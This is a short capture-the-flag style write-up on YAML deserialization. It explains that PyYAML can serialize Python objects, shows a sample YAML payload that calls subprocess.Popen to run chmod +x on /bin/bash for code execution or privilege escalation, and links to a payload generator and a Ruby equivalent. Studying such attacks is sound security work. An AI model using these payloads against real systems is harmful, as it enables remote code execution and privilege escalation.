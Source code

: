 ```yaml
---
layout: post
title: "What Lies Within write-up"
date: 2023-09-20 09:01:22 -0400
categories: [Misc]
---
```


Some YAML libraries are capable of serializing actual commands instead of just raw data. Which can be utilized to achieve RCE or PrivEsc.

Try running the following script in Python

```python
import yaml

print(yaml.dump(range(1,10)))
```

You can see that the range method itself is serialized. To exploit this, you simply need to craft a nice YAML payload.
Which can conveniently be done using: https://github.com/j0lt-github/python-deserialization-attack-payload-generator
Example Python payload:

```yaml
!!python/object/apply:subprocess.Popen
- !!python/tuple
  - chmod
  - +x
  - /bin/bash
```

Ruby also have a similar vulnerability

https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/
